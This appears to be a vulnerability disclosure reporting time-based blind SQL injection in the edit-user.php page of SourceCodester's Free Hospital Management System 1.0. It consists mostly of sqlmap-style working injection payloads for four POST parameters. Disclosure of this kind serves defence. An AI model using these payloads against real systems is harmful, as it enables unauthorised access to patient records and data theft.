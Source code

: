 
https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file vm\patient\edit-user.php

The manipulation of the argument $email, $name,$password,$nic,$tele,$address,$id,$oldemail leads to sql injection

```
Parameter: nic (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201' AND (SELECT 4293 FROM (SELECT(SLEEP(5)))DAKS) AND 'KGSv'='KGSv&Tele=9090909080&address=India&password=patient&cpassword=patient

Parameter: Tele (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080' AND (SELECT 7998 FROM (SELECT(SLEEP(5)))eOlg) AND 'jmJk'='jmJk&address=India&password=patient&cpassword=patient

Parameter: id00 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1 AND (SELECT 1470 FROM (SELECT(SLEEP(5)))chBW)&oldemail=patient@patient.com&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080&address=India&password=patient&cpassword=patient

Parameter: oldemail (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=1&oldemail=patient@patient.com' AND (SELECT 3770 FROM (SELECT(SLEEP(5)))HToF) AND 'ZGHT'='ZGHT&email=patient@patient.com&name=Mrs.Sunita Dighe&nic=422201&Tele=9090909080&address=India&password=patient&cpassword=patient
```
![Alt text](image-1.png)
![Alt text](image.png)